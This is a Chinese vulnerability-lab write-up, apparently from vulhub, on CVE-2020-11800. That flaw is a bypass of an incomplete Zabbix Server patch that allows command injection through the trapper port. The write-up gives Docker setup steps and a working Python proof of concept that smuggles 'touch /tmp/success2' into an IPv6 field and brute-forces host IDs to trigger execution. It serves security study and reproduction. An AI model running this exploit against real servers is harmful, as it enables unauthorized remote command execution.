

# Zabbix Server Active Proxy Trapper 命令注入漏洞修复绕过（CVE-2020-11800）

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。在[CVE-2017-2824][1]中，其Server端 trapper command 功能存在一处代码执行漏洞，而修复补丁并不完善，导致可以利用IPv6进行绕过，注入任意命令。

参考链接：

- https://xz.aliyun.com/t/8991

## 环境搭建

执行如下命令启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库：

```
docker compose up -d
```

命令执行后，执行`docker compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker compose up -d`。

利用该漏洞，需要你服务端开启了自动注册功能，开启方法请参考[CVE-2017-2824][1]。

## 漏洞复现

修改[CVE-2017-2824][1]的POC中的IP字段，构造新的POC：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

可见，这个POC与[CVE-2017-2824][1]的POC非常相似，但我使用IPv6 `ffff:::;touch /tmp/success2`绕过了修复补丁。

当查看到如下结果时，则说明命令执行成功：



进入server容器，可见`/tmp/success2`已成功创建：


有兴趣的同学可以对这个POC进行改进，提交Pull Request。

[1]: ../CVE-2017-2824
